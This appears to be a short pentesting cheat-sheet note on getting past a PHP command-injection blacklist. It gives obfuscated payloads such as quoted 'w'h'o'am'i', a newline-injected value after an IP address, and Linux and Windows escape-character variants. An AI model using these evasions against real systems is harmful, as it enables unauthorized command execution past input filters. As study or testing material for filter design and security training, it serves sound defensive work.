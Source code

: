 ## Commands Blacklist
```
$blacklist = ['whoami', 'cat', ...SNIP...];
foreach ($blacklist as $word) {
    if (strpos('$_POST['ip']', $word) !== false) {
        echo "Invalid input";
    }
}
```

1. Use characters that are ignored by command shells like Bash or PowerShell
- ' or "
```
w'h'o'am'i
w"h"o"am"i
127.0.0.1%0aw'h'o'am'i
```
- We cannot mix types of quotes
- The number of quotes must be even


## Linux Only
- backslash and the position parameter character $@
- It does not have to be even
```
who$@ami
w\ho\am\i
```

## Windows Only
- caret ^
```
who^ami
```
